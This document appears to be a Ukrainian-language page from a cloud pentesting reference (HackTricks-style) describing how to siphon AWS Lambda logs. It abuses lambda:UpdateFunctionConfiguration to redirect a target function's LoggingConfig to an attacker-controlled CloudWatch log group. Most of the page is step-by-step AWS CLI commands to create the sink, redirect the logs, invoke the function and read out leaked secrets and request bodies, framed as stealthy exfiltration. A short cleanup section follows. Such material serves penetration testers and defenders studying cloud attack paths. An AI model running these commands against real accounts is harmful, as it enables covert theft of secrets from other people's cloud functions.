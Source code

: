 # AWS Lambda – Log Siphon via LoggingConfig.LogGroup Redirection

{{#include ../../../../banners/hacktricks-training.md}}

Зловживайте можливостями розширених налаштувань логування через `lambda:UpdateFunctionConfiguration`, щоб перенаправити логи функції в обрану атакуючим групу CloudWatch Logs. Це працює без зміни коду або ролі виконання (більшість Lambda-ролей уже включають `logs:CreateLogGroup/CreateLogStream/PutLogEvents` через `AWSLambdaBasicExecutionRole`). Якщо функція виводить секрети/тіла запитів або падає зі стек-трейсами, ви зможете зібрати їх з нової групи журналів.

## Необхідні дозволи
- lambda:UpdateFunctionConfiguration
- lambda:GetFunctionConfiguration
- lambda:InvokeFunction (або покладайтесь на існуючі тригери)
- logs:CreateLogGroup (часто не потрібен, якщо роль функції вже має цей дозвіл)
- logs:FilterLogEvents (для читання подій)

## Кроки
1) Створіть цільову групу журналів
```
aws logs create-log-group --log-group-name "/aws/hacktricks/ht-log-sink" --region us-east-1 || true
```
2) Перенаправити логи цільової функції
```
aws lambda update-function-configuration \
--function-name <TARGET_FN> \
--logging-config LogGroup=/aws/hacktricks/ht-log-sink,LogFormat=JSON,ApplicationLogLevel=DEBUG \
--region us-east-1
```
Зачекайте, поки `LastUpdateStatus` стане `Successful`:
```
aws lambda get-function-configuration --function-name <TARGET_FN> \
--query LastUpdateStatus --output text
```
3) Викликати та зчитати з sink
```
aws lambda invoke --function-name <TARGET_FN> /tmp/out.json --payload '{"ht":"log"}' --region us-east-1 >/dev/null
sleep 5
aws logs filter-log-events --log-group-name "/aws/hacktricks/ht-log-sink" --limit 50 --region us-east-1 --query 'events[].message' --output text
```
## Вплив
- Непомітно перенаправити всі application/system logs до log group, який ви контролюєте, bypassing очікувань, що logs потрапляють лише в `/aws/lambda/<fn>`.
- Exfiltrate чутливі дані, виведені function або виявлені в errors.

## Очищення
```
aws lambda update-function-configuration --function-name <TARGET_FN> \
--logging-config LogGroup=/aws/lambda/<TARGET_FN>,LogFormat=Text,ApplicationLogLevel=INFO \
--region us-east-1 || true
```
## Примітки
- Елементи керування логуванням є частиною `LoggingConfig` у Lambda (LogGroup, LogFormat, ApplicationLogLevel, SystemLogLevel).
- За замовчуванням Lambda надсилає логи в `/aws/lambda/<function>`, але ви можете вказати будь-яку назву LogGroup; Lambda (або execution role) створить її, якщо це дозволено.

{{#include ../../../../banners/hacktricks-training.md}}
